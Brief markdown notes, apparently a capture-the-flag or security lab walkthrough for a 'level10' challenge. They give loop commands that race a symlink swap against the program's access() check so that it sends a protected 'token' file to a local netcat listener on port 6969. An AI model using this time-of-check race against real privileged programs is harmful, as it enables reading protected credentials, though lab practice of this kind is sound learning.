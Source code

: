 # useful links

http://manpagesfr.free.fr/man/man2/access.2.html

# cmd

 - run the program with a file
 	- `./level10 file 0.0.0.0`
 	- `nc -l 6969` : start listening at port 6969

		```
		.*( )*.
		contents-of-the-file
		```
 - open 3 terminals and run folowing commands at the same time
	- `while true ; do echo "not this file" > file; chmod 777 file; ln -s -f token file; rm file; done`

	- `while true; do ./level10 file 0.0.0.0; done`

	- `while true; do nc -l 6969; done`